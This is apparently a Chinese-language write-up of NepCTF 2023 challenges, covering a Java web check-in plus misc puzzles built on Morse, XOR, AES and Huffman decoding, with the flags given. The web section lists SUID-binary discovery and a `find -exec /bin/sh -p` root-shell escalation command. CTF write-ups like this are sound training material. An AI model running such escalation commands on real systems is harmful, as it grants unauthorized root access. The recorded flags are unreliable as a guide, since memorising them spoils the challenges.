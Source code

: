 ## Web
### ez_java_checkin
工具梭哈

![](attachments/Pasted%20image%2020230817162152.png)

flag 需要权限
`find / -user root -perm -4000 -print 2>/dev/null`

![](attachments/Pasted%20image%2020230817163042.png)

`find . -exec /bin/sh -p \; -quit`

![](attachments/Pasted%20image%2020230817163220.png)


## Misc
### 小丁弹钢琴
前半部分是摩斯电码

![](attachments/Pasted%20image%2020230818162039.png)

![](attachments/Pasted%20image%2020230818162537.png)

`YOUSHOLDUSETHISTOXORSOMETHING`
后半部分是16进制

![](attachments/Pasted%20image%2020230818161721.png)

`0x370a05303c290e045005031c2b1858473a5f052117032c39230f005d1e17`

![](attachments/Pasted%20image%2020230818163053.png)

`NepCTF{h4ppy_p14N0}`


### 你也喜欢三月七么

![](attachments/Pasted%20image%2020230818163255.png)

这题纯阅读理解
key就群名sha256取前16位

```TEXT
salt_lenth= 10 
key_lenth= 16 
iv= 88219bdee9c396eca3c637c0ea436058 #原始iv转hex的值
ciphertext= b700ae6d0cc979a4401f3dd440bf9703b292b57b6a16b79ade01af58025707fbc29941105d7f50f2657cf7eac735a800ecccdfd42bf6c6ce3b00c8734bf500c819e99e074f481dbece626ccc2f6e0562a81fe84e5dd9750f5a0bb7c20460577547d3255ba636402d6db8777e0c5a429d07a821bf7f9e0186e591dfcfb3bfedfc
```

salt = NepCTF2023
key = dd8e671df3882c5be6423cd030bd7cb6

之后就一路智能cyberchef

![](attachments/Pasted%20image%2020230818163826.png)


`https://img1.imgtp.com/2023/07/24/yOkXWSJT.png`

![](attachments/Pasted%20image%2020230818164237.png)

![](attachments/Pasted%20image%2020230818164722.png)

NepCTF{HRP_aIways_likes_March_7th}

### 与AI共舞的哈夫曼
GPT写脚本，其实不用写看前面的列表也知道是啥

`NepCTF{huffman_zip_666}`